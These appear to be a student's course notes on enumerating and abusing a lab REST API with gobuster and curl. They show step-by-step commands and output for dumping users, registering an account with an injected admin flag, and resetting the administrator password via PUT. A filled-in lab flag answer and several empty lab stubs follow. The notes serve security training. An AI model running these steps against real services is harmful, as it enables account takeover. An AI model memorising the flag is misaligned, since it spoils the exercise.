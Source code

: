 # Enumerating and Abusing APIs

API Path Naming Convention
>``` shell
>/api_name/v1
>```

Gobuster pattern
>``` shell
>{GOBUSTER}/v1
>{GOBUSTER}/v2
>```

Bruteforcing API Paths
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
>[+] Patterns:                pattern (1 entries)
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 04:19:46 Starting gobuster in directory enumeration mode
>===============================================================
>/books/v1             (Status: 200) [Size: 235]
>/console              (Status: 200) [Size: 1985]
>/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
>/users/v1             (Status: 200) [Size: 241]
># =====================================
>```

Obtaining Users' Information
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1
>
># ========== Expected Result ==========
>HTTP/1.0 200 OK
>Content-Type: application/json
>Content-Length: 241
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 09:27:50 GMT
>
>{
>  "users": [
>    {
>      "email": "mail1@mail.com",
>      "username": "name1"
>    },
>    {
>      "email": "mail2@mail.com",
>      "username": "name2"
>    },
>    {
>      "email": "admin@mail.com",
>      "username": "admin"
>    }
>  ]
>}
># =====================================
>```

Discovering extra APIs
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001/users/v1/admin/
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 06:40:12 Starting gobuster in directory enumeration mode
>===============================================================
>/email                (Status: 405) [Size: 142]
>/password             (Status: 405) [Size: 142]
>
>===============================================================
>2022/04/06 06:40:35 Finished
>===============================================================
># =====================================
>```

Discovering API unsupported methods
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/admin/password
>
># ========== Expected Result ==========
>HTTP/1.0 405 METHOD NOT ALLOWED
>Content-Type: application/problem+json
>Content-Length: 142
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 10:58:51 GMT
>
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Inspecting the 'login' API
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>HTTP/1.0 404 NOT FOUND
>Content-Type: application/json
>Content-Length: 48
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 12:04:30 GMT
>
>{ "status": "fail", "message": "User not found"}
># =====================================
>```

Crafting a POST request against the login API
>``` shell
>kali@kali:~$ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "Password is not correct for the given username."}
># =====================================
>```

Attempting new User Registration
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "'email' is a required property"}
># =====================================
>```

Attempting to register a new user as admin
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
># =====================================
>```

Logging in as an admin user
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Attempting to Change the Administrator Password via a POST request
>``` shell
>kali@kali:~$ curl  \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
>  -d '{"password": "pwned"}'
>
># ========== Expected Result ==========
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Attempting to Change the Administrator Password via a PUT request
>``` shell
>kali@kali:~$ curl -X 'PUT' \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
>  -d '{"password": "pwned"}'
>```

Successfully logging in as the admin account
>``` shell
>kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Lab 1 - 
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 offsecwp
>
># Save and exit:
>Ctrl + X
>
># Navigate to http://offsecwp/?p=1
>
># Right-click anywhere on the page, click Inspect, and enter "OS{" in the search bar
>```
>OS{c220cc334635a533cae9c236c2e31aa0}

Lab 2 - 
>``` shell
>
>```
>

Lab 3 - 
>``` shell
>
>```
>

Lab 4 - 
>``` shell
>
>```
>

Lab 5 - 
>``` shell
>
>```
>

Lab 6 - 
>``` shell
>
>```
>
